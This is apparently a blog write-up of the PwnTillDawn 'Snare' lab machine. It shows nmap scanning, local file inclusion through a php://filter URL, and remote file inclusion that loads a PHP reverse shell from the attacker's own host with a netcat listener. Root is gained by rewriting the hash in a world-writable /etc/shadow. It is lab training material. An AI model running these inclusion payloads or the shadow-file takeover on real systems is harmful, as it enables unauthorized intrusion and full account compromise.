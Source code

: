 ```yaml
---
layout: post
title: PwnTillDawn - Snare Write-Up
date: 2024-06-30
classes: wide
description: Escalating privileges via writable /etc/shadow.
---
```


# Snare (10.150.150.18)

![](/assets/img/post/pwntilldawn_snare/1.png)



## Scanning Target

Let's start as usual with Nmap:

```
sudo nmap -sV -sC -oN nmap.txt 10.150.150.18
```

![](/assets/img/post/pwntilldawn_snare/2.png)

We have only ports 22 and 80 available, and apart from bruteforce, there's nothing interesting about SSH, to let's work on HTTP first.



## Web Server Exploration

Upon loading the website there's nothing really interesting on the page itself, but there's one thing that instantly draws attention, which is the URL.

![](/assets/img/post/pwntilldawn_snare/3.png)

I *always* recommend checking out the source-code for clues and/or interesting findings, but this time it's quite obvious, we can try changing the page name to see how the server responds, and we'll soon find out this is a LFI vulnerability. Interestingly enough, any other file apart from the web pages isn't working, still, we don't know the reason. 



## Local File Inclusion

One cool trick I've learned is that you can use PHP wrappers to retrieve file contents by converting them into base64 strings, we can try reading the page index and have a peek on the code.

```
http://10.150.150.18/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

![](/assets/img/post/pwntilldawn_snare/4.png)

Yet, by some reason, even `index.php` isn't working, but when we try to do the same with home page, it works like a charm. So we know this vulnerability *do* exist.

```
http://10.150.150.18/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

![](/assets/img/post/pwntilldawn_snare/5.png)

In this case, I can only assume that's the page is appending the `.php` extension, and we can type `index` without the extension. Yes, we could try bypassing it somehow and accessing the server files, yet, understanding the code internal workings is our best bet to easily exploit the server.

```
http://10.150.150.18/index.php?page=php://filter/convert.base64-encode/resource=index
```

![](/assets/img/post/pwntilldawn_snare/6.png)

It works! After decoding the contents of the Base64 string, we can confirm our previous theory.

```php
<?php

if (empty($_GET)) {
	header('Location: /index.php?page=home');
} 
else {
	$page = $_GET['page'];
	include ($page. '.php');
}
?>
```

This code snippet adds the `.php` extension to whatever text we add in the URL, and using `%00` doesn't work, but what we can do is try to reach external server and see if this escalates to a Remote File Inclusion vulnerability.



## Remote File Inclusion

To test this theory, what we can do is to run a local server within our machine and perform a request to any file.

```
python -m http.server
```

Back to the web page, we'll type the following URL:

```
http://10.150.150.18/index.php?page=http://10.66.66.230:8000/random
```

And back to our terminal:

![](/assets/img/post/pwntilldawn_snare/7.png)



## Uploading a Shell

Great, we can now try to use this and load a PHP reverse shell to get access. I'll be using [Pentest Monkey's PHP Shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). Remember to change the shell options to your IP address and port before using it.

![](/assets/img/post/pwntilldawn_snare/8.png)

Now we just have to start a listener using `netcat` on the same port and request the file in our machine omitting the extension and voilá!

![](/assets/img/post/pwntilldawn_snare/9.png)

The first flag is available on the `/home/snare` directory inside the machine.

![](/assets/img/post/pwntilldawn_snare/10.png)



## Privilege Escalation

Now, assuming the next one is inside `/root` folder, we must find a way to escalate our privileges. Looking for binaries, kernel and OS version, among other stuff would take too long, we can use `LINPEAS-ng` which a bash script that does this for us and list potential escalation methods.

Normally it would take just a simple command to use it, but since PwnTillDawn machines can't connect outside the VPN's network, you must download and follow the same usage describe in [this page](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).

From the output, we can see the `/etc/shadow` file has read/write permissions to any user, which means we can easily root the machine by accessing the account hash and changing it inside the file.

```
mkpasswd -m sha-512 pwned
```

This command will generate a new hash on the attacker with whatever password you want, now back to the target, you can use `nano` to edit the file and change root's password hash by simply deleting it and pasting the newly hash.

![](/assets/img/post/pwntilldawn_snare/11.png)

Notice only the hash should be replaced, the others values separated by `:` must stay the same.

Once done, just use the `su` command to access root account, and type the password you've just created, which in my case was `pwned`.

![](/assets/img/post/pwntilldawn_snare/12.png)

Finally, the final flag is available inside `/root` by the name of `FLAG2.txt`.
